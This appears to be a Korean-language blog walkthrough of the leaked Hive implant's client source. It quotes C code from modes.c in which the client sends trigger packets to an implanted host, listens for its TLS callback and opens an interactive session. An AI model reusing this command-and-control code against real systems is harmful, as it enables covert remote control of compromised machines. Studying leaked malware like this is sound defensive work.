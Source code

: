 argv를 파싱하여 두 스트럭트에 값을 할당한다.

```c
Run( &pvars, &trigger_args );
```

그 후 두 struct를 인자로 `Run()` 함수를 호출한다.

---

[__modes.c__](https://github.com/ryanking13/Vault-8-Hive/blob/master/hive-repository/client/modes.c)

```c
void Run( struct proc_vars* info, struct trigger_params *trigger_args )
...

// if we aren't listening, then we don't need to take the lock.
	// taking the lock allows us to set-up the listening socket before sending the trigger packet(s)
	if ( info->listen == YES )
	{
		DLX(2, printf( " Requesting pthread_mutex_lock \n"));
		pthread_mutex_lock( &tlock );
		DLX(2, printf( " pthread_mutex_lock locked\n"));
	}

	// to avoid race condition where main thread exits before trigger is set,
	// don't call tigger_start() as a thread
	if ( info->trigger == YES && info->listen == NO )
	{
		DLX(2, printf( " Trigger mode set\n"));
		trigger_start ( (void *) trigger_args );
		return;
	}

	if ( info->trigger == YES && info->listen == YES )
	{
		DLX(2, printf( " Trigger mode set\n"));
		make_thread( trigger_start, (void *) trigger_args );
	}
...
```

`Run()` 함수에서는 proc_vars의 trigger==YES이면 `trigger_start()`함수를 호출한다.

trigger와 listen이 구분되어 있는 이유는 두 개의 client가 별도로 동작할 수 있기 때문이다. 그 경우 trigger를 보내는 client와 Host가 보내는 콜백 메세지를 listen하는 client가 다르다.

```c
  crypt_context		*cp;		// Command post connection context pointer

  ...

  // from a SSL/TLS perspective, the client acts like a SSL server
  if ((cp = crypt_setup_server(&info->tcpfd)) == NULL )
  {
  	DLX(2, printf( " ERROR: crypt_setup_server() failed\n"));
  	return;
  }

  ...

  // The following if statement used to have an else clause to call AutomaticMode() which did nothing.
  if ( info->interactive == YES ) {
  	InteractiveMode(info, cp);
  }
```